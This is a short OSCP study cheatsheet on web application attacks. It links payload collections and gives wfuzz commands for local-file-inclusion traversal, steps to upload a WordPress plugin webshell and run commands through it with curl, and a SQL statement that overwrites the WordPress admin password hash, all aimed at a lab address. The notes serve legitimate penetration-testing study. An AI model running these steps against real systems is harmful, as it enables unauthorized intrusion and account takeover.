 ```yaml
---
title: Webapplication Attacks
author: linatl
category: "OSCP"
date: "2021-03-04 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### PayloadsAllTheThings
```
Directory traversal
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal
LFI/RFI
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
File Uploads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
Command injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
SQL injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```


###### LFI file lists
```
https://github.com/hussein98d/LFI-files

Then use the list to find out which ones work:
$ wfuzz -u http://10.10.10.10:80/index.php/file=../../../../../../../../..FUZZ -w ./list.txt

Find out how many characters a wrong request is, then filter those out:
$ wfuzz -u http://10.10.10.10:80/index.php/file=../../../../../../../../..FUZZ -w ./list.txt -hh 1000
```

###### PHP wrappers
//////////////////TODO:

###### Apache Log Poisoning
//////////////////TODO:

###### SQL Cheatsheets
```
Pentestmonkey
https://pentestmonkey.net/category/cheat-sheet/sql-injection

https://blog.cobalt.io/a-pentesters-guide-to-sql-injection-sqli-16fd570c3532
```

###### WebDAV
```
$ cadaver http://10.10.10.10/
```

###### Wordpress Panel
```
Upload webshell in a plugin

$ cp /usr/share/seclists/Web-Shells/Wordpress/plugin-shell.php ./
$ zip plugin-shell.zip plugin-shell.php

Upload the ZIP as a plugin. Then run the webshell:
$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

###### Example changing a wordpress password in MariaDB
```
https://codebeautify.org/wordpress-password-hash-generator
"password" $P$Bp430d4U/90Jjw8evTcM4ShXGZZkdv0

$ UPDATE wp_users SET user_pass = "$P$Bp430d4U/90Jjw8evTcM4ShXGZZkdv0" WHERE ID=1;
then verify with:
$ select * from wp_users;

Then login with username:"password"
```
